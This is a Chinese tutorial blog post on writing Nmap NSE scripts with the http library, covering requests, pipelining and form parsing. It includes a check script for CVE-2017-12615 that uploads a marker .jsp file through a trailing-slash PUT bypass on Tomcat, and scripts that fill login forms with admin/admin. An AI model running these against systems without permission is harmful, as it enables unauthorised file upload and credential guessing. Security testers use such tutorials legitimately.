





Nmap扩展开发（四）
本来是想写成一本书的，但是可能断断续续没有很好的产出，我只能以文章的形式分享出来了，希望我的研究成果能够给大家带来便利。—— 作者：倾旋
0x01 HTTP包的使用
一般情况下，我们扫描一些Web服务的同时需要进行渗透测试、安全评估、漏洞检测等操作，但是官方并未提供符合我们需求的脚本，这时候就要自己写脚本了。Nmap已经内置了HTTP包，不需要再进行下载和配置。
0x02 基础概念铺垫
首先，先介绍两个表结构，为了方便我们后续的数据操作，让读者先熟悉两个东西：
- 响应表
响应表中主要涵盖了：HTTP状态码、HTTP响应头、HTTP版本、HTTP原始响应头、Cookies、HTTP响应主体内容（body）等
| Response:
| status: 200
| header:
| content-length: 0
| allow: POST,OPTIONS,HEAD,GET
| connection: close
| content-type: text/html
| server: Apache/2.4.29 (Debian)
| date: Fri, 06 Jul 2018 07:02:13 GMT
| ssl: false
| body:
| cookies:
|
| status-line: HTTP/1.1 200 OK\x0D
|
| rawheader:
| Date: Fri, 06 Jul 2018 07:02:13 GMT
| Server: Apache/2.4.29 (Debian)
| Allow: POST,OPTIONS,HEAD,GET
| Content-Length: 0
| Connection: close
| Content-Type: text/html
|
|_ version: 1.1
- Options表
Options表主要用于设置HTTP请求时的超时时间、Cookie、请求头、HTTP认证、页面缓存、地址类型（IPV4/IPV6）、是否验证重定向
{
timeout:
header:{"Content-Type":"",...},
cookies:{\{"name","value","path"\},...},
auth:{username:"",password:""},
bypass_cache:true,
no_cache:true,
no_cache_body:true,
any_af:true,
redirect_ok:true
}
0x03 确认目标主机的HTTP服务是否支持HEAD
- 引入HTTP包：
local http = require "http"
- 确认目标主机的HTTP服务是否支持HEAD
这里主要使用can_use_head函数，参数有4个，函数原型如下：
local status,header = can_use_head(host,port,result_404,path)
参数说明：
- host : host表
- port : port表
- result_404 : 由identify_404函数确认当前Web服务器是否设置了404页面且返回200状态码，一般情况下填写404或者nil。
- path : 请求路径，默认为“/”根目录
- 其中status是一个布尔值，如果返回true则支持HEAD，返回false则不支持
- header是HEAD请求的结果。
需求：确认目标主机是否支持HEAD，如果支持则输出响应头
local stdnse = require "stdnse"
local http = require "http"
prerule=function()
end
hostrule=function(host)
return false
end
portrule=function(host,port)
if(port.number == 80) then
return true
end
return false
end
action = function(host,port)
local result
local status = false
status,result = http.can_use_head(host,port,404,"/")
if(status) then
http_info = stdnse.output_table()
http_info.header = result.header
http_info.version = result.version
return http_info
end
end
postrule=function()
end
代码解读：
看完代码读者可能会有疑问，hostrule函数为什么返回false？
在hostrule中返回false是因为如果是true会自动调用action，此时port的值是nil，所以会抛出一些错误。
紧接着就是将端口号为80的host和port交给action函数执行，调用can_use_head函数，判断status是否为true，是true则支持HEAD方法请求。最后生成一个output_table，用来将响应内容填入这个表，以便于格式化显示。

如果只想取得目标主机响应的server，我们可以这样写：
……
action = function(host,port)
local result
local status = false
status,result = http.can_use_head(host,port,302,"/")
if(status) then
http_info = stdnse.output_table()
http_info.header = result.header
http_info.version = result.version
http_info.server = result.header["server"]
return http_info
end
end
……
执行结果如下：

0x04 发送一个HTTP请求
generic_request是一个最基本的发送HTTP请求的函数，参数有以下几个：
- host : host表
- port : port 表
- method : HTTP方法，例如：GET、POST、HEAD…
- path : 请求路径，默认是根路径“/”
- options : 用于设置请求相关的Cookie、超时时间、header
例如：
发送一个OPTIONS请求，来获取目标服务支持哪些HTTP方法
local stdnse = require "stdnse"
local http = require "http"
prerule=function()
end
hostrule=function(host)
return false
end
portrule=function(host,port)
if(port.number == 80) then
return true
end
return false
end
action = function(host,port)
local result = http.generic_request(host,port,"OPTIONS","/",nil)
if(result.status == 200)then
local allow_method = stdnse.output_table()
allow_method.allowMethods = result.header["allow"]
return allow_method
end
end
postrule=function()
end
执行结果如下：

- 返回值：
该函数返回一个响应表，具体可参考前面的0X02响应表
0x04 发送一个GET请求
get函数也是基于generic_request函数的，具体可以去看nselib/http.lua源代码，该函数有以下参数：
- host : host表
- port : port 表
- path : 请求路径，默认是根路径“/”
- options : 用于设置请求相关的Cookie、超时时间、header
除了比generic_request函数中少了一个method参数，其他相同。
local stdnse = require "stdnse"
local http = require "http"
prerule=function()
end
hostrule=function(host)
return false
end
portrule=function(host,port)
if(port.number == 80) then
return true
end
return false
end
action = function(host,port)
local result = http.get(host,port,"/nmap")
if(result.status == 404)then
local status = stdnse.output_table()
status.response_line = result["status-line"]
return status
end
end
postrule=function()
end
执行结果：

- 返回值：
该函数返回一个响应表，具体可参考前面的0X02响应表
0x05 发送一个POST请求
post函数也是基于generic_request函数的，具体可以去看nselib/http.lua源代码，该函数有以下参数：
- host : host表
- port : port 表
- path : 请求路径，默认是根路径“/”
- options : 用于设置请求相关的Cookie、超时时间、header
- ignored : 是否忽略向后兼容性
- postdata : post提交数据，可以是一个表，也可以是一个字符串，具体形式如下：
username=admin&password=admin
-- 或者：
local data = {}
data.username = "admin"
data.password = "admin"
尝试使用账号密码登录某个系统
用php脚本语言写一个简单登录判断的页面：
<?php
if(isset($_POST["username"]) && isset($_POST["password"]))
{
$username = $_POST["username"];
$password = $_POST["password"];
if($username == "admin" && $password == "admin"){
echo "login success !";
}else{
echo "login failed !";
}
}else{
echo "please login !";
}
?>
通过post函数提交username与password，然后获取body判断是否登录成功
……
action = function(host,port)
local cert = {}
cert.username="admin"
cert.password="admin"
local result = http.post(host,port,"/index.php",nil,true,cert)
if(result.status == 200)then
local status = stdnse.output_table()
status.response_line = result["body"]
return status
end
end
……
执行结果：

- 返回值：
该函数返回一个响应表，具体可参考前面的0X02响应表
0X06 编写一个检测CVE-2017-12615的脚本
为了检验读者对之前的内容是否有所收获，所以产生一个需求，编写一个针对CVE-2017-12615的漏洞检测脚本。首先我们需要了解这个漏洞：
编写CVE-2017-12615的漏洞检测脚本
攻击者可以利用这个漏洞，向目标服务器上传恶意 JSP 文件，通过上传的 JSP 文件 ，可在用户服务器上执行任意代码，从而导致数据泄露或获取服务器权限，存在高安全风险。
漏洞的利用方式是通过PUT请求，这让我们不得不学习一个新的函数——put函数，它的参数类似于post函数。
- host : host表
- port : port 表
- path : 请求路径，默认是根路径“/”
- options : 用于设置请求相关的Cookie、超时时间、header
- putdata : 要上传的文件的内容
这里我使用Docker已经搭建好了一个Tomcat环境：

编写的脚本如下：
local stdnse = require "stdnse"
local http = require "http"
prerule=function()
end
hostrule=function(host)
return false
end
portrule=function(host,port)
local ports = {80,8080,8090,8899}
for i in pairs(ports)do
if(port.number == ports[i])then
return true
end
end
end
action = function(host,port)
local shell_name = string.format("/%d.jsp","/",math.random(9999))
local status = stdnse.output_table()
local put_rsp = http.put(host,port,shell_name.."/",nil,"CVE-2017-12615")
if(put_rsp.status == 201)then
status.shell_name = shell_name
return status
end
return false
end
postrule=function()
end
在action函数中，首先生成一个随机的文件名，然后发送PUT请求，判断响应码是否是201。注意，发送PUT请求的时候，文件扩展名后门必须带”/”，是为了绕过tomcat的检测。
执行结果：

使用浏览器访问：

发现CVE-2017-12615这个字符，证明该漏洞的确存在。
0x07 响应内容匹配
当我们需要对HTTP响应内容进行操作的时候，需要学习一些字符串操作函数、HTTP包内的函数。
- response_contains函数，用于在响应表中匹配字符串，参数如下：
- response : 响应表，可以是（http.get、http.post、http. pipeline_go、http.head等函数的返回值）
- pattern : 字符串匹配模式，可参考lua手册
- case_sensitive : 是否区分大小写，默认值为false，不区分
返回值：
- match_state : 匹配成功为true，匹配失败为false
- matchs : 返回一个匹配结果表，前提是match_state为true
了解了这个函数后，我们可以继续将CVE-2017-12615漏洞检测脚本进一步的优化，让脚本判断写入了jsp文件后，判断是否是我们写入的字符串。这样能够使检测脚本的准确度大大提高，下面请看我在action函数中写入的新代码：
……
action = function(host,port)
local shell_name = string.format("%sCVE-2017-12615-CHECK-%d.jsp","/",math.random(9999))
local status = stdnse.output_table()
local put_rsp = http.put(host,port,shell_name.."/",nil,"CVE-2017-12615")
if(put_rsp.status == 201)then
status.shell_name = shell_name
local response = http.get(host,port,shell_name)
if(response and http.response_contains(response,"CVE%-2017%-12615") )then
return status
end
return false
end
return false
end
……
脚本执行结果与上一节中的内容相同，只是多了一次GET请求，为了让读者真正理解这个脚本的执行过程，下面对比一下wireshark流量：
- 优化前：

首先脚本直接向80端口发送了一个PUT请求，然后服务器响应405，漏洞利用失败。
紧接着脚本又请求了8080端口，服务器响应201，证明漏洞利用成功。

- 优化后：

通过向8080端口发送PUT请求成功利用后，又向写入文件发送了一次GET请求，获取响应内容，进行字符串匹配，达到更加深度的验证漏洞是否利用成功。
0x08 并发HTTP请求
这里说的并发HTTP请求的原理是与目标主机建立一个socket，在每一次发送报文后都不会断开（除了最后一次请求）。平常我们在扩展脚本中调用一个http.get函数，将会返回一个响应表，代表已经获取了目标主机的响应报文，当返回响应表之前就已经与目标主机断开了连接。下一次调用http.get时，还需要进行一次建立连接的过程，导致我们会消耗一定的时间。如果一个扩展脚本需要发送多次请求，可以考虑使用http.pipeline_add与http.pipline_go配合使用。
下面就来介绍这两个函数如何配合使用：
http.pipeline_add参数如下：
- path : 请求路径
- options : 用于设置请求相关的Cookie、超时时间、header
- all_requests : （可选值），如果是第一次调用，则为nil，若不是第一次调用，需要传入上一次http.pipeline_add的返回值
- method : HTTP方法（GET、POST、HEAD、PUT等），默认为GET
返回值：
- 一个请求表
|
| path:
| options:
| header:
| Connection: keep-alive
|_ method: GET
可以有多个，下标从1开始，如果需要查看这个请求列表的结构，可以直接在action函数中return出http.pipeline_add的返回值，代码演示如下：
……
action = function(host,port)
local all_requests = http.pipeline_add("/index.jsp",nil,nil,"GET")
all_requests = http.pipeline_add("/docs/changelog.html",nil,all_requests,"GET")
return all_requests
end
……
执行结果：

因为调用了两次http.pipeline_add，所以会产生两个请求列表队列元素，如果只想获取第一个请求队列元素，可以return all_requests[1]。
下面我们要开始将队列交给http.pipeline_go函数，由它来完成所有请求，函数参数如下：
- host : host表
- port : port 表
- all_requests : 由http.pipeline_add函数装在好的请求列表
返回值：
- response_list : 响应列表
示例代码：
……
action = function(host,port)
local status_lines = stdnse.output_table()
local all_requests = http.pipeline_add("/index.jsp",nil,nil,"GET")
all_requests = http.pipeline_add("/docs/changelog.html",nil,all_requests,"GET")
local all_response = http.pipeline_go(host,port,all_requests)
for i,resp in ipairs(all_response)do
status_lines[i] = resp["status-line"]
end
return status_lines
end
……
这段代码中添加了两个请求队列元素，分别是：
- /index.jsp
- /docs/changelog.html
将队列交给http.pipeline_go函数后，返回一个响应列表，all_response[1]对应index.jsp的响应表，all_response[2]对应/docs/changelog.html的响应表。因此可以使用迭代，将每个请求的某个字段放入一个输出表里，本次示例是取得了两次请求队status-line。
执行结果：

0x09 表单操作
关于表单操作，在爬虫、漏洞扫描、爆破时用的较多，一般要先取回目标主机的响应body，然后字符串匹配获得表单结构。但是这些操作在Nmap中已经提供了一些方法，接下来就让我们一起学习http包中的表单操作函数吧。
http.grab_forms 用于在响应内容中查找表单，并返回一个form_list表，参数如下：
- body : 响应表中的body
返回值：
- form_list : 表单列表
获取页面中的表单列表
我使用apache和php搭建了一个简单的登录界面，尝试通过nmap的扩展脚本来获取表单列表。

查看一下HTML源码：

可以发现页面中这个表单是提交到index.php的，并且提供了两个输入值，分别是username和password，这种情况下我们完全可以采用lua的字符串匹配模式获得input的name，但是如果页面上有很多表单，这就会增加我们处理数据的压力。
我们来试试http.grab_forms函数：
local http = require "http"
prerule=function()
end
hostrule=function(host)
return false
end
portrule=function(host,port)
if(port.number == 80)then
return true
end
end
action = function(host,port)
local response = http.get(host,port,"/index.php")
local login_forms = http.grab_forms(response.body)
return login_forms
end
postrule=function()
end
因为http.grab_forms函数接收的是响应表的body，所以需要调用http.get函数将响应表取到，再把响应表的body传递进去。
执行结果：

目前是获得了一个登录表单，注意：返回的是一个表单列表，而不是只能获得一个表单，在登录页面中新添加一个表单后：

再执行脚本观察一下：

如果还想进一步获得input的name值，就要学习另外一个函数—— http. parse_form
参数如下：
- form : 表单的明文
返回值：
- 一个带键的表，分别有：action、method、fields
示例：
| test:
| action: /index.php
| method: post
| fields:
|
| type: text
| value: test
| name: username
|
| type: text
| value: test
|_ name: password
注意：fields是一个table，不是一个字符串，里面有表单的多个字段
需求：爬取页面表单，并尝试登录
当前页面有两个表单，先尝试一个表单来登录，整体步骤如下：
- 抓取表单
- 解析表单
- 拼接字段
- 登录
- 判断是否登录成功
action = function(host,port)
local login_table = {}
local response = http.get(host,port,"/index.php")
local login_forms = http.grab_forms(response.body)
local form = http.parse_form(login_forms[1])
for i,name in ipairs(form.fields)do
login_table[form.fields[i].name]="admin"
end
local login_response = http.post(host,port,"/index.php",nil,nil,login_table)
if(http.response_contains(login_response,"success"))then
login_table.login_status = true
return login_table
end
login_tabke.login_status = false
return login_table
end
本段代码首先获取index.php的响应表，通过http.grab_forms函数获得登录，将返回值（第一个表单）交给http.parse_from，取得表单fields（字段），然后遍历每一个字段的name，把它填入一个table，最后执行http.post函数，刚好http.post的data可以是一个table也可以是一个字符串。请求完毕后得到登录的响应结果，再由http.response_contains判断是否登录成功，登录成功会出现success字样提示。
为了解决疑惑，我贴出index.php的源代码：
<!DOCTYPE html>
<html>
<body>
<?php
if(isset($_POST["username"]) && isset($_POST["password"]))
{
$username = $_POST["username"];
$password = $_POST["password"];
if($username == "admin" && $password == "admin"){
echo "login success !";
}else{
echo "login failed !";
}
}else{
echo "please login !";
}
?>
<hr/>
<form action="/index.php" method="post">
username:<br>
<input type="text" name="username" value="test">
<br>
password:<br>
<input type="text" name="password" value="test">
<br><br>
<input type="submit" value="Submit">
</form>
……
</body>
</html>
下一章：DNS包的使用
正向解析、反向解析、发送DNS请求等
网络安全爱好者、安全工具开发者
现阶段在进行红队相关的工作，我的博客会记录一些我的学习过程和部分安全技术研究成果。